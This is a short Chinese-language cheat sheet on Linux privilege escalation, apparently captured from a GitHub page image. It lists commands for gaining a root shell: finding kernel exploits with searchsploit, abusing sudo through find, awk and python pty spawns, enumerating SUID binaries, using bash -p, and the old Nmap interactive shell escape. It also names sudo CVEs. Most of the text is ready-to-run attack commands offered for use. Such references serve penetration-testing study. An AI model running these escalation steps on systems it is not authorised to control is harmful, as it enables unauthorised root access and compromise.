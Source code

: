 ### Linux提权

#### 1 内核溢出提权

- uname -a 查看系统版本和内核信息

- 使用searchsploit在kali 查找相关内核漏洞

  ```
  searchsploit -t Ubuntu 14.04
  ```

#### 2.sudo提权

```
sudo --version  //查看版本
sudo -l     //查看当前用户可以使用的sudo的命令程序
```

常规提权：（需要当前用户密码，如果管理员在/etc/sudoers配置了某些命令免密码使用，则可以利用该命令进行提权）

利用find:

```
sudo find . -exec /bin/sh \; -quit或者sudo awk 'BEGIN {system("/bin/sh")}'
```

python命令提权(su root被禁止登录，python获取交互shell)

```
sudo python -c 'import pty;pty.spawn("/bin/bash")'
```

其他漏洞CVE-2019-14287、CVE-2021-3156

#### 3.suid提权

① 查找具有suid权限文件：

```
find / -user root -perm -4000 -print 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
find / -user root -perm -4000 -exec ls -ldb {} \;
```

执行命令：

```
find filename -exec whoami \;    //以SUID即root权限执行命令
如果是/usr/bin/bash执行bash -p     //将以root权限打开一个bash shell
```

② nmap(旧版本的 Nmap（2.02 到 5.21）具有交互模式，允许用户执行 shell 命令)

```
nmap -v   //查看版本
root@localhost:~# nmap --interactive //交互模式
nmap> !sh
root@localhost:~# whoami
root
```
